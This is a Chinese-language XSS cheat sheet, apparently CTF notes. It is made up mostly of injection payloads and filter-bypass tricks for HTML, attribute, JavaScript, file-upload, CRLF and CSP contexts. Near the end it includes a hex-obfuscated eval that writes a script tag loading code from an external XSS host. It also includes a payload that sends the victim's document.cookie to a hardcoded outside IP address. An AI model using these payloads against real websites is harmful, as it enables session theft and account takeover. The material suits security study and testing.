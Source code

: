 # xss注入

## 一 基础

### HTML 上下文-简单注入

第一步是 闭合相应的标签

```
<svg onload="alert(1);"></svg> 载入svg文档的标签 onload被加载的时候，执行的事件
```

```
<title><style><script><textarea><noscript><pre><xmp>和<iframe>
```

以上的标签的利用方式都相同

### HTML上下文呢-内联注入

作为标记中的属性值来使用时，**记住该标记不能以大于号结尾**

```
"onmouseover=alert(1)//"
前面的引号作为闭合标签，后面的//来注释掉后面的数据
"autofocus onfocus=alert(1)//
```

### HTML上下文-源代码注入

当输入作为以下标签的属性的值时或者url时，注入

```
data:alert(1)
javascript:alert(1)
```

### javascript 上下文中-代码注入

```
'-alert(1)-'
'-alert(1)//
```

在字符串分隔值内使用，但引号由反斜杠转义。

```
\'-alert(1)//
</script><svg onload=alert(1)>
```

## 二 高级

1. 利用闭合符号，去闭合相应的代码块，在使用//来注释后面的代码。

2. 利用同一个页面中的多重引用。

   ```
   */alert(1)">'onload="/*<svg/1='
   `-alert(1)">'onload="`<svg/1='
   ```

3. 利用同时的多个反射，直接xss注入

   ```
   p=<svg/1='&q='onload=alert(q)>
   p=<svg 1='&q='onload='/*&r=*/alert(1)'>
   ```
   
4. 文件上传-文件名 

5. 文件上传-元数据（使用`exiftool -Artist='"><svg onload=alert(1)>"'xss.jpeg`）

6. 文件上传注入-svg文件

   ![image.png](https://i.loli.net/2021/01/04/dG1VWayLKvCnUHS.png)
   
7. DOM插入

   `data:text/html,<img src=1 onload=alert(1)>`

8. php_self注入

   ![](https://i.loli.net/2021/01/04/WxfphUQZoryL7qg.png)

9.  **javascript postmessage注入**

   ```
   <iframe src=url onload="frames[0].postMessage('Injection')"
   ```

10. CRLF注入

    当应用程序反映其中一个响应标头中的输入时，允许注入回车符（％0D）和换行符（％

    0A）字符。分别为Gecko和Webkit的向量。

    允许注入换行符和回车符，重点在于web应用程序将请求的参数会在应用程序中输出。

    ![image-20210104172742986](https://i.loli.net/2021/01/04/ASwIODPVoXimQav.png)

11.浏览器通知注入

![image.png](https://i.loli.net/2021/01/04/or1yfMlpBQ8HsbV.png)

## 三 Bypass过滤 CTF实战

编码绕过，是其中很重要的一个部分

#### 1.大小写绕过

![image-20210104203607137](https://i.loli.net/2021/01/04/xq4Hc3BWVgQfGtC.png)

#### 2.脚本额外标记绕过

```
<script/x>alert(1)</script>
```
#### 3.括号被过滤

```
`` 反引号来助力
\x28 \x29来帮忙
&lpar; &rpar;
&#40 &#41
```

#### 4. 没有字母，没有数字

```
jsfuck 颜文字版本 
```

![image-20210104211943495](https://i.loli.net/2021/01/04/pQI2dYrPzOAEqXH.png)

#### 5.关键字符

可以用js代码从url中或得。

没有空格的日子里。

```
斜杠和引号， url编码
```

#### 6. CSP策略绕过

```
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
```

像这种头部，就活该被干。

![image-20210104213904223](https://i.loli.net/2021/01/04/c8mZe9R2OHhKW6C.png)铁路

当允许从这两个域中获取时，再进行绕过。重点还是得看，他是如何设置这个头部的。

这里贴一个链接：https://www.jianshu.com/p/f1de775bc43e网上资料很多，这种也比较，明显。

#### 7. 没有事件处理的向量

```
如果不允许，请用作事件处理程序的替代方法。有些需要用户交互，如矢量本身（也是其中
的一部分）所述。
```

![image-20210104214133697](https://i.loli.net/2021/01/04/NvCFrBtdnY1W6V4.png)

#### 8. 具有不可知事件处理程序的向量  

```
如果不允许所有已知的HTML标记名称，请使用以下向量。任何字母字符或字符串都可以用
作标记名称来代替“x”。 它们需要用户交互，如其文本内容（也构成向量的一部分）所述
```

#### 9. 超长UTF-8

![image-20210104214747882](https://i.loli.net/2021/01/04/tgMzE3i98XNYOZ1.png)

#### 10 asp转用payload

![image-20210104214811939](https://i.loli.net/2021/01/04/RP6ZnlVbUkaONi5.png)

#### 11 插入DOM执行

```
document.write(String.fromCharCode(32));
可以拼接出来被过滤的标签
```

![image-20210104214837624](https://i.loli.net/2021/01/04/XATEFWxhZRIUmez.png)

#### 12 XML注入

![image-20210104214855273](https://i.loli.net/2021/01/04/Oeqp3imHMwRdFNS.png)

#### 13 基于DOM的XSS - 位置接收器过滤器逃避  

![image-20210104215053011](https://i.loli.net/2021/01/04/cIQRt8TGaAKdWwf.png)

还要再备几个测试用的字典，专门测试（动作，属性关键字的字典）

#### 14 编码绕过

```
<body/onload=eval("\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x77\x72\x69\x74\x65\x28\x53\x74\x72\x69\x6E\x67\x2E\x66\x72\x6F\x6D\x43\x68\x61\x72\x43\x6F\x64\x65\x28\x36\x30\x2C\x31\x31\x35\x2C\x36\x37\x2C\x38\x32\x2C\x31\x30\x35\x2C\x38\x30\x2C\x31\x31\x36\x2C\x33\x32\x2C\x31\x31\x35\x2C\x38\x32\x2C\x36\x37\x2C\x36\x31\x2C\x34\x37\x2C\x34\x37\x2C\x31\x32\x30\x2C\x31\x31\x35\x2C\x31\x31\x35\x2C\x34\x36\x2C\x31\x31\x32\x2C\x31\x31\x36\x2C\x34\x37\x2C\x31\x30\x34\x2C\x38\x34\x2C\x34\x38\x2C\x38\x34\x2C\x36\x32\x2C\x36\x30\x2C\x34\x37\x2C\x31\x31\x35\x2C\x36\x37\x2C\x31\x31\x34\x2C\x37\x33\x2C\x31\x31\x32\x2C\x38\x34\x2C\x36\x32\x29\x29\x3B")>
```

unicode编码绕过，还有就是

`<BODY/ONLOAD=document.location='http://42.192.142.64:5000/?cookie='+document.cookie;>`

带数据出来

```

```

